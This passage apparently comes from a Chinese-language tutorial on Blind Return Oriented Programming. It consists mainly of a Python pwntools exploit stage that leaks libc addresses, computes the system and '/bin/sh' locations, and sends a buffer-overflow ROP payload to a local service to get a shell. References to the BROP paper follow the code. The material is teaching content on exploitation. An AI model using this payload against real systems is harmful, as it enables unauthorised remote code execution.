 ```python

# dump code section from memory
# and then use Radare2 or IDA Pro to find the got address
#start_addr = 0x400000
#end_addr   = 0x401000
#code_bin = dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr)
#with open('code.bin', 'wb') as f:
#   f.write(code_bin)
#   f.close()
puts_got = 0x00601018

# you can also dump data from memory and get information from .got
#start_addr = 0x600000
#end_addr   = 0x602000
#data_bin = dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr)
#with open('data.bin', 'wb') as f:
#    f.write(data_bin)
#    f.close()

# must close ASLR
#puts_addr = get_puts_addr(buf_size, stop_addr, gadgets_addr, puts_plt, puts_got)
puts_addr = 0x7ffff7a90210

# first add your own libc into libc-database: $ ./add /usr/lib/libc-2.26.so
# $ ./find puts 0x7ffff7a90210
# or $ ./find puts 210
# $ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570
# $ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570 puts
# then you can get the following offset
offset_puts   = 0x000000000006f210
offset_system = 0x0000000000042010
offset_str_bin_sh = 0x17aff5

system_addr = (puts_addr - offset_puts) + offset_system
binsh_addr  = (puts_addr - offset_puts) + offset_str_bin_sh

# get shell
payload  = "A"*buf_size
payload += p64(gadgets_addr + 9)    # pop rdi; ret;
payload += p64(binsh_addr)
payload += p64(system_addr)
payload += p64(stop_addr)

p = remote('127.0.0.1', 10001)
p.recvline()
p.sendline(payload)
p.interactive()
```


## 参考资料
- [Blind Return Oriented Programming (BROP)](http://www.scs.stanford.edu/brop/)
- [Blind Return Oriented Programming (BROP) Attack (1)](http://ytliu.info/blog/2014/05/31/blind-return-oriented-programming-brop-attack-yi/)
